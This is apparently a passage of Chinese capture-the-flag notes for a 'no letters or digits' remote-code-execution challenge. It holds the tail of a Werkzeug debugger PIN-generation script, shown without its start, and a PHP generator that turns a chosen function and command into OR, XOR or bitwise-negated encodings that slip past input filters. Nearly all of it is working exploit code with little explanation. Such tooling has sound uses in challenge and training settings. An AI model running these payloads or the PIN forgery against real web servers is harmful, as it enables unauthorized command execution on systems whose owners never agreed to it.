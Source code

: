 ```python

cookie_name = f"__wzd{
      
      h.hexdigest()[:20]}"

# If we need to generate a pin we salt it a bit more so that we don't
# end up with the same value and generate out 9 digits
h.update(b"pinsalt")
num = f"{
      
      int(h.hexdigest(), 16):09d}"[:9]

# Format the pincode in groups of digits for easier remembering if
# we don't have a result yet.
rv=None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = "-".join(
                num[x : x + group_size].rjust(group_size, "0")
                for x in range(0, len(num), group_size)
            )
            break
    else:
        rv = num

print(rv)
```

web802 无字母数字RCE
https://blog.csdn.net/Sapphire037/article/details/121054836

生成异或字符:
```php
<?php
/*
# -*- coding: utf-8 -*-
# @Author: Y4tacker
# @Date:   2020-11-21 20:31:22
*/
//或
function orRce($par1, $par2){
    $result = (urldecode($par1)|urldecode($par2));
    return $result;
}

//异或
function xorRce($par1, $par2){
    $result = (urldecode($par1)^urldecode($par2));
    return $result;
}

//取反
function negateRce(){
    fwrite(STDOUT,'[+]your function: ');

    $system=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN));

    fwrite(STDOUT,'[+]your command: ');

    $command=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN));

    echo '[*] (~'.urlencode(~$system).')(~'.urlencode(~$command).');';
}
```